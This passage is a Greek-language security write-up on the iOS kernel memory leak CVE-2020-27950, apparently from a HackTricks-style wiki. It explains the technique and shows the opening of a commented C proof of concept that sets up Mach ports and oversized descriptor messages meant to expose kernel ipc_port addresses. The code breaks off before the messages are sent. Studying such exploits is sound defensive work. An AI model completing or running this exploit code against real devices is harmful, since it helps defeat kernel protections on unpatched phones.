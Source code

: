 ### Leak Kernel Address PoC

Στο [original post](https://www.synacktiv.com/en/publications/ios-1-day-hunting-uncovering-and-exploiting-cve-2020-27950-kernel-memory-leak), υπάρχει ένα PoC για να leak μια kernel διεύθυνση. Για αυτό, ένα μήνυμα γεμάτο `mach_msg_port_descriptor_t` structs αποστέλλεται επειδή το πεδίο `name` αυτής της δομής στο userland περιέχει ένα unsigned int, αλλά στο kernel το πεδίο `name` είναι δείκτης σε struct `ipc_port`. Επομένως, η αποστολή δεκάδων από αυτές τις δομές στο μήνυμα στο kernel θα σημαίνει την **προσθήκη πολλαπλών kernel διευθύνσεων μέσα στο μήνυμα** έτσι ώστε μία από αυτές να μπορεί να leak-θεί.

Προστέθηκαν σχόλια για καλύτερη κατανόηση:
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <mach/mach.h>

// Number of OOL port descriptors in the "big" message.
// This layout aims to fit messages into kalloc.1024 (empirically good on impacted builds).
#define LEAK_PORTS 50

// "Big" message: many descriptors → larger descriptor array in kmsg
typedef struct {
mach_msg_header_t header;
mach_msg_body_t body;
mach_msg_port_descriptor_t sent_ports[LEAK_PORTS];
} message_big_t;

// "Small" message: fewer descriptors → leaves more room for the trailer
// to overlap where descriptor pointers used to be in the reused kalloc chunk.
typedef struct {
mach_msg_header_t header;
mach_msg_body_t body;
mach_msg_port_descriptor_t sent_ports[LEAK_PORTS - 10];
} message_small_t;

int main(int argc, char *argv[]) {
mach_port_t port;       // our local receive port (target of sends)
mach_port_t sent_port;  // the port whose kernel address we want to leak

/*
* 1) Create a receive right and attach a send right so we can send to ourselves.
*    This gives us predictable control over ipc_kmsg allocations when we send.
*/
mach_port_allocate(mach_task_self(), MACH_PORT_RIGHT_RECEIVE, &port);
mach_port_insert_right(mach_task_self(), port, port, MACH_MSG_TYPE_MAKE_SEND);

/*
* 2) Create another receive port (sent_port). We'll reference this port
*    in OOL descriptors so the kernel stores pointers to its ipc_port
*    structure in the kmsg → those pointers are what we aim to leak.
*/
mach_port_allocate(mach_task_self(), MACH_PORT_RIGHT_RECEIVE, &sent_port);
mach_port_insert_right(mach_task_self(), sent_port, sent_port, MACH_MSG_TYPE_MAKE_SEND);

printf("[*] Will get port %x address\n", sent_port);

message_big_t   *big_message   = NULL;
message_small_t *small_message = NULL;

// Compute userland sizes of our message structs
mach_msg_size_t big_size   = (mach_msg_size_t)sizeof(*big_message);
mach_msg_size_t small_size = (mach_msg_size_t)sizeof(*small_message);

```